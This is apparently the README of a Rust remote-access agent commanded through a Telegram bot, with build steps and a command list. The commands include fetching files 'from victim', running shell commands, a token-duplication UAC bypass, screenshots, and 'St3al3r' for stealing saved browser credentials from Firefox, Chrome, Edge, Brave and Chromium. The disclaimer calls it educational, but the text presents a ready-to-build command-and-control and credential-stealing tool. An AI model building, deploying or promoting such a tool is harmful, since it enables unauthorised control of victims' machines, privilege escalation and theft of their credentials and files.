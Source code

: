> :warning: Please keep in mind that these Agent has been developed and shared for educational purposes only! Any misuse of this info will not be the responsibility of the author.
  
</div>

## Quick Start

 1. [Download Rust](http://rustup.rs/).
 2. Create a new bot using [@Botfather](https://t.me/botfather) to get a token in the format `0123456789:XXXXxXXxxxXxX3x3x-3X-XxxxX3XXXXxx3X`.
 3. Put these token into `Bot::new("0123456789:XXXXxXXxxxXxX3x3x-3X-XxxxX3XXXXxx3X")`.
 4. Obtain Telegram UserId for a bot maintainer user in the format `9876543210`.
 5. Put these UserId into `ConfigParameters {bot_maintainer: UserId(9876543210)}`.
 6. Make sure that your Rust compiler is up to date:
```bash
$ rustup update nightly
$ rustup override set nightly
```
 7. Compilation:
 ```bash
# Windows PowerShell
$ cargo build --release
```

---

### Agent

> Fully written in Rust

#### Commands: ####

```
Help            - Display help info.                                                                /help
ShowDir         - Show content of specified directory.                                              /showdir {dirname}
SendFile        - Get specified file from victim.                                                   /sendfile {filepath}
Task            - Execute specified shell commnd.                                                   /task cmd.exe /c {command}
Imperun         - Impersonate and run (Token Duplication UAC Bypass)                                /imperun {list/exec} {pid} {cmd.exe /c whoami}
Screenshot      - Take screenshot.                                                                  /screenshot
St3al3r         - Steal saved credentials from browsers (Firefox, Edge, Chromium, Chrome, Brave)    /st3al3r
```
<div align="center">